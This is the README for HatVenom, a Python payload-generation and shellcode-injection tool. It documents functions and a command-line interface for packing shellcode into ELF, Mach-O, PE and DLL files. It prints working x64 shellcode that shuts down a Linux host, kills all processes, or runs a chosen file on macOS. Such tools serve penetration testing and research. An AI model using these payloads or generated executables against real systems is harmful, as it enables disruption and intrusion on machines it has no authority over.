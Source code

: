 # HatVenom

<p>
    <a href="https://entysec.netlify.app">
        <img src="https://img.shields.io/badge/developer-EntySec-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/HatVenom">
        <img src="https://img.shields.io/badge/language-Python-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/HatVenom/stargazers">
        <img src="https://img.shields.io/github/stars/EntySec/HatVenom?color=yellow">
    </a>
</p>

HatVenom is a HatSploit native powerful payload generation and shellcode injection tool that provides support for common platforms and architectures.

## Features

* Support for most common executable formats like `elf`, `macho`, `pe`, `dll`.
* Support for most common architectures like `x64`, `x86`, `aarch64`, `armle`, `mipsle`, `mipsbe`.
* Ability to modify shellcode by changing pre-defined offsets.

## Installation

```shell
pip3 install git+https://github.com/EntySec/HatVenom
```

## Supported targets

| Format    | **x86** | **x64** | **armle** | **armbe** | **aarch64** | **mipsle** | **mipsbe** | **mips64le** | **mips64be** |
|-----------|---------|---------|-----------|-----------|-------------|------------|------------|--------------|--------------|
| **elf**   | yes | yes | yes | no | yes | yes | yes | no | no |
| **macho** | no | yes | no | no | no | no | no | no | no |
| **pe**    | yes | yes | no | no | no | no | no | no | no |
| **dll**   | yes | yes | no | no | no | no | no | no | no |

* **elf** - Unix Executable & Linkable Format.
* **macho** - macOS / Apple iOS Mach-O executable format.
* **pe** - Windows Portable Executable format.
* **dll** - Windows Dynamic Link Library format.

## Basic functions

There are all HatVenom basic functions that can be used to generate payload, covert data, assemble code or inject shellcode.

* `assemble(arch, code)` - Generate byte code for specified target from specified code.
* `convert_host(host, endian='little')` - Convert host to bytes.
* `convert_port(port, endian='little')` - Convert port to bytes.
* `generate(file_format, arch, shellcode, offsets={})` - Generates payload for specified target and with specified shellcode.
* `generate_to(file_format, arch, shellcode, offsets={}, filename='a.out')` - Generates payload for specified target and with specified shellcode and saves it to the specified file.

## Assembling code

It's very easy to assemble code for various targets in HatVenom. Let's assemble a simple code that calls shutdown for Linux.

```python
from hatvenom import HatVenom

code = (
    "xor rax, rax;"
    "xor rdx, rdx;"
    "push rax;"
    "push 0x77;"
    "push 0x6f6e;"
    "mov rbx, rsp;"
    "push rax;"
    "push 0x682d;"
    "mov rcx, rsp;"
    "push rax;"
    "movabs r8, 0x2f2f2f6e6962732f;"
    "movabs r10, 0x6e776f6474756873;"
    "push r10;"
    "push r8;"
    "mov rdi, rsp;"
    "push rdx;"
    "push rbx;"
    "push rcx;"
    "push rdi;"
    "mov rsi, rsp;"
    "add rax, 0x3b;"
    "syscall"
)

hatvenom = HatVenom()
shellcode = hatvenom.assemble(code, 'x64')
```

## Generating payload

It's very easy to generate payload for various targets in HatVenom. Let's generate a simple payload that calls shutdown for Linux and save it to `a.out`.

### Examples

```python
from hatvenom import HatVenom

shellcode = (
    b"\x48\x31\xc0\x48\x31\xd2\x50\x6a"
    b"\x77\x66\x68\x6e\x6f\x48\x89\xe3"
    b"\x50\x66\x68\x2d\x68\x48\x89\xe1"
    b"\x50\x49\xb8\x2f\x73\x62\x69\x6e"
    b"\x2f\x2f\x2f\x49\xba\x73\x68\x75"
    b"\x74\x64\x6f\x77\x6e\x41\x52\x41"
    b"\x50\x48\x89\xe7\x52\x53\x51\x57"
    b"\x48\x89\xe6\x48\x83\xc0\x3b\x0f"
    b"\x05"
)

hatvenom = HatVenom()
hatvenom.generate_to('elf', 'x64', shellcode)
```

## Payload offsets

Payload offsets is a variables used to add something to a shelcode on the preprocessing stage. Offsets looks like this:

```shell
\x90\x90\x90\x90:message:string:\x90\x90\x90\x90
```

Where `message` is an offset name and `string` is an offset type. So the basic usage of the offset looks like:

```shell
[shellcode]:[name]:[type]:[shellcode]
```

There are some possible offsets types:

* `string` - Plain text that will be converted to bytes on the preprocessing stage.
* `ip` - IP address that will be converted to bytes on the preprocessing stage.
* `port` - Numeric port that will be converted to bytes on the preprocessing stage.

So if you want to replace offset with bytes instead of `string`, `ip` and `port`, you can use this type:

```shell
[shellcode]:[name]:[shellcode]
```

### Examples

Let's generate a simple payload that executes provided through `file` offset file for macOS and save it to `a.out`.

```python
from hatvenom import HatVenom

shellcode = (
    b"\x48\x31\xf6\x56\x48\xbf"
    b":file:string:"
    b"\x57\x48\x89\xe7\x48\x31"
    b"\xd2\x48\x31\xc0\xb0\x02"
    b"\x48\xc1\xc8\x28\xb0\x3b"
    b"\x0f\x05"
)

hatvenom = HatVenom()
hatvenom.generate_to('macho', 'x64', shellcode, {'file':'//bin/ps'})
```

## HatVenom CLI

HatVenom also has their own command line interface that can be invoked by executing `hatvenom` command:

```
usage: hatvenom [-h] [-f FORMAT] [-a ARCH] [-s SHELLCODE] [--offsets OFFSETS]
                [-o OUTPUT]

HatVenom is a HatSploit native powerful payload generation and shellcode
injection tool that provides support for common platforms and architectures.

optional arguments:
  -h, --help            show this help message and exit
  -f FORMAT, --format FORMAT
                        Platform to generate for.
  -a ARCH, --arch ARCH  Architecture to generate for.
  -s SHELLCODE, --shellcode SHELLCODE
                        Shellcode to inject.
  --offsets OFFSETS     Shellcode offsets.
  -o OUTPUT, --output OUTPUT
                        File to output generated payload.
```

### Examples

Let's generate a simple payload that kills all processes for Linux and save it to `a.out`.

```shell
hatvenom --format elf --arch x64 --shellcode "\x6a\x3e\x58\x6a\xff\x5f\x6a\x09\x5e\x0f\x05"
```

**NOTE:** If you want to use offsets in the CLI version of HatVenom, then you should use `--offsets one=1,two=2`
